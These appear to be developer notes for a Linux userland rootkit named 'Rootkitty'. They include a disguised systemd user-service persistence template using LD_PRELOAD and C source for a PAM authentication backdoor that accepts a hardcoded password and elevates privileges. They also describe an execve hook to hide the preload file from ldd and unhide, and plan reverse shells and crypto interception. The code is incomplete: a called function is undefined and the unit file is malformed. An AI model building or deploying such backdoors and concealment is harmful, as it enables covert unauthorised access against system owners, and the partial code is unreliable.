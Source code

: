 # Rootkitty
## Persistence Using SystemD services

place file here:
`~/.config/systemd/user/<your_filename>.service`

should look like this:
```rootkatz.service
[Unit]
Description= something, totally not a rootkit[Service]
ExecStart=/usr/bin/bash -c 'export LD_PRELOAD=<path_to_shared_lib>'
Restart=always
RestartSec=60[Install]
WantedBy=default.target
```

enable service like so:
`systemctl --user enable rootkatz.service`

this depends on the user being logged in.
to do this at boot (for servers, since they dont have users logged in) root must run:
`systemctl --enable-linger <username>` 
obviously since we dont have root access we cannot use this but 
we can check by `ls /var/lib/systemd/linger/` 
if lingering is available there is a empty file with username on it 

## cool stuff for libraries
`static void __attribute__((constructor)) function(args)` 
gets loaded and executed before evrythig

## PAM Backdoor 
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>
#include <security/pam_appl.h>
#include <security/pam_modules.h>
#include <string.h>
#define PAM_EXTERN extern

int elevation(){
    uid_t UID = getuid();
    gid_t GID = getgid();

    if (seteuid(0) ==- 1){
        return -1;
    }
    if (setegid(0)==-1){
        seteuid(UID);
        return -1;
    }
    return 0;
}

PAM_EXTERN int pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    int (*og_pam_sm_authenticate)(pam_handle_t *pamh, int flags, int argc, const char **argv);
    og_pam_sm_authenticate = dlsym(RTLD_NEXT, "pam_sm_authenticate");
    
    const char* passwd;
    pam_get_item(pamh, PAM_AUTHTOK, (const void**)&passwd);

    if(passwd != NULL && strcmp(passwd, "backdoorpassword") == 0) {
        return PAM_SUCCESS;
    }

    return og_pam_sm_authenticate(pamh, flags, argc, argv);
}

PAM_EXTERN int pam_sm_setcred(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    int (*og_pam_sm_setcred)(pam_handle_t *pamh, int flags, int argc, const char **argv);
    og_pam_sm_setcred = dlsym(RTLD_NEXT, "pam_sm_setcred");
    if (is_backdoor_used(pamh)){
        if(elevation()==0){
return PAM_SUCCESS;
        }
    }
    return og_pam_sm_setcred(pamh, flags, argc, argv);
}
// on exit
int drop_privileges(uid_t original_uid, gid_t original_gid) {
    if (setegid(original_gid)==-1){
        return -1;
    }
  if (seteuid(original_uid) == -1) {
        return -1;
    }
    return 0;
}
```
## Bypassing LDD, LD_LINUX, UNHIDE the lazy way 
hook execve:
if path = path of ldd or whatever
    save old uid 
    decrypt strings
    set uid to 0
    rename ld.so.preload to .ld.so.preload
    wait a lil bit
    undo


## more ideas
- anti debug
- PAM backdoor 
- persistence over systemd service
- reverse shell ipv4 and v6 
- mini-shell interface from server so we can have custom commands
- intercept common cryptographic functions
